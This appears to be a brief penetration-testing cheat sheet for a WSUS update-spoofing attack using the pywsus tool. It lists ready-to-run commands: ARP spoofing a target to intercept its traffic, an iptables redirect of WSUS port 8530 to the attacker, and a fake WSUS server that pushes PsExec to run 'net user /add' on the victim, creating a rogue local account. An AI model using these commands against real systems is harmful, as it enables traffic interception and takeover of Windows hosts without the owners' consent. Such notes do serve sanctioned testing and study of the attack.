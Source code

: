 ### source
https://github.com/GoSecure/pywsus  

### get into mitm position
```
arpspoof -i <interface> -t <rhost> -r <gatewayIp>
```

### send traffic to localhost
```
iptables -t nat -I PREROUTING -i <interface> -p tcp --dport 8530 -j REDIRECT --to-port 8530
```

### start local wsus
```
python3 pywsus.py -H <lhost> -p 8530 -e <psexecExeFile> -c '/accepteula /s cmd.exe /c "net user /add <user> <password>"'
```

